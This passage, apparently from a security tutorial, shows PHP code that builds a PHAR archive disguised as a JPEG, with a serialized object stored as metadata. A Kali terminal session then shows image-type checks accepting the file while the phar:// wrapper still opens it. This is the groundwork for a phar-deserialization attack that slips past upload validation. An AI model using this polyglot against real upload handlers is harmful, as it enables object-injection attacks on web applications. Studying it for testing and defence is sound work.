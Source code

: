 ```php
  "\xFF\xC4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x07\xFF\xDA\x00".
  "\x0C\x03\x01\x00\x02\x10\x03\x10\x00\x00\x01\x54\x81\x3F\xFF\xC4\x00\x14\x10\x01\x00\x00\x00\x00\x00".
  "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xFF\xDA\x00\x08\x01\x01\x00\x01\x05\x02\x7F\xFF\xC4\x00".
  "\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xFF\xDA\x00\x08\x01\x03".
  "\x01\x01\x3F\x01\x7F\xFF\xC4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00".
  "\x00\x00\xFF\xDA\x00\x08\x01\x02\x01\x01\x3F\x01\x7F\xFF\xC4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00".
  "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xFF\xDA\x00\x08\x01\x01\x00\x06\x3F\x02\x7F\xFF\xC4\x00\x14".
  "\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xFF\xDA\x00\x08\x01\x01\x00".
  "\x01\x3F\x21\x7F\xFF\xDA\x00\x0C\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\xFF\x00\xFF\xC4\x00\x14\x11".
  "\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xFF\xDA\x00\x08\x01\x03\x01\x01".
  "\x3F\x10\x7F\xFF\xC4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00".
  "\xFF\xDA\x00\x08\x01\x02\x01\x01\x3F\x10\x7F\xFF\xC4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00".
  "\x00\x00\x00\x00\x00\x00\x00\x00\xFF\xDA\x00\x08\x01\x01\x00\x01\x3F\x10\x7F\xFF\xD9";

  // create a new phar
  $phar = new Phar("test.phar");
  $phar->startBuffering();
  // add a file and relative content
  $phar->addFromString("test.txt","test");
  // add the minimal stub
  $phar->setStub($jpeg." __HALT_COMPILER(); ?>");
  // create the object
  $o = new TestObject();
  $o->data = 'cmg-fc';
  // add the test object as meta data
  $phar->setMetadata($o);
  $phar->stopBuffering();

  // rename phar to jpeg
  rename("test.phar", "test.jpg");
?>
```
Now, it's time to check it out:
```bash
root@kali:~# file test.jpg 
test.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 300x300, segment length 16, comment: "Created by Fabio Cogno", progressive, precision 8, 1x1, components 3
root@kali:~# php -a
Interactive mode enabled

php > var_dump(mime_content_type('test.jpg'));
string(10) "image/jpeg"
php > var_dump(file_exists('phar://test.jpg/test.txt'));
bool(true)
php > var_dump(getimagesize('test.jpg'));
array(7) {
  [0]=>
  int(1)
  [1]=>
  int(1)
  [2]=>
```